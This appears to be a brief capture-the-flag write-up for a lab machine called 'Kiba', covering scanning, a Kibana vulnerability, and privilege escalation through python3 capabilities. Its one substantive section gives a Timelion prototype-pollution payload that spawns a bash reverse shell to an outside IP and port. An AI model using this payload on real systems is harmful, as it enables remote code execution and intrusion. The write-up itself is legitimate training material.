









# Kiba


---

## nmap

> The service on 5601 is kibana



## vuln

> Copy and paste the first task into google to find kibana CVE



## kibana dashboard

> Go to kibana dashboard



## reverse shell

> Exploit the Timelion section using prototype pollution to execute the reverse shell and get the user account
```javascript
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.11.19.194/1337 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```





## User Flag



## PrivEsc

> List programs with capabilities set, take not of python3



> Exploit the python3 capabilities to get root



## Root Flag


